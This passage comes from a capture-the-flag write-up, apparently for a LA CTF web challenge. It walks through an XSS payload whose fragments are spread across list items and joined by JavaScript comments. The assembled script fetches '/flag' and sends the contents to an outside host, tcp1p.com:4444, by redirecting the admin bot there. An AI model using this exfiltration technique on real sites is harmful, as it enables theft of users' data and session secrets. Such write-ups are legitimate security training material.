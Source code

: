 ```
*/"//tc"+/*
*/"p1p"+/*
*/".com"+/*
*/":44"+/*
*/"44?"+/*
*/a))/*
*/'>
```

The payload above will be like this after we submit:

![](https://i.imgur.com/xkHZu3m.png)

When we extract the script for `onerror`, we will get a valid js script like below, which means our XSS will run correctly.

```javascript
/*</label></li><li><input type="checkbox" id="item2"><label for="item2">*/fetch(/*</label></li><li><input type="checkbox" id="item3"><label for="item3">*/"/flag")/*</label></li><li><input type="checkbox" id="item4"><label for="item4">*/.then(/*</label></li><li><input type="checkbox" id="item5"><label for="item5">*/(a)=>a./*</label></li><li><input type="checkbox" id="item6"><label for="item6">*/text()/*</label></li><li><input type="checkbox" id="item7"><label for="item7">*/.then(/*</label></li><li><input type="checkbox" id="item8"><label for="item8">*/(a)=>/*</label></li><li><input type="checkbox" id="item9"><label for="item9">*/location/*</label></li><li><input type="checkbox" id="item10"><label for="item10">*/.href=/*</label></li><li><input type="checkbox" id="item11"><label for="item11">*/"htt"+/*</label></li><li><input type="checkbox" id="item12"><label for="item12">*/"p:"+/*</label></li><li><input type="checkbox" id="item13"><label for="item13">*/"//tc"+/*</label></li><li><input type="checkbox" id="item14"><label for="item14">*/"p1p"+/*</label></li><li><input type="checkbox" id="item15"><label for="item15">*/".com"+/*</label></li><li><input type="checkbox" id="item16"><label for="item16">*/":44"+/*</label></li><li><input type="checkbox" id="item17"><label for="item17">*/"44?"+/*</label></li><li><input type="checkbox" id="item18"><label for="item18">*/a))/*</label></li><li><input type="checkbox" id="item19"><label for="item19">*/
```

Now we send the result url from submitting our payload to the admin bot.

`example url that we goint to send to admin bot`
```
https://hptla.lac.tf/view.html#c5bf2790-ed14-43af-9b8c-80f28aba90c5
```

and we will get the flag.

![](https://i.imgur.com/hCMoG2a.png)

